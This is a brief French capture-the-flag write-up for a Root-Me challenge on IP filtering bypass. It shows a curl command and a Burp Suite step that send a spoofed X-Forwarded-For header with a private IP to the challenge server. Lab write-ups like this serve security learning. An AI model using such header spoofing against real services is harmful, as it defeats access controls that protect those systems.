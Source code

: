 Le challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Contournement-de-filtrage-IP

Ici le but va être dans la requete HTTP d'envoyer une autre IP dans l'header 

On utilisera 

‘‘‘
curl 'http://challenge01.root-me.org/web-serveur/ch68/' --header 'X-Forwarded-For: 192.168.1.1'
‘‘‘


Il y a aussi la possibilité de le faire avec Burp suite 

Suffit de rajouter dans le GET  le flag 
‘‘‘
X-Forwarded-For: 192.168.1.1
‘‘‘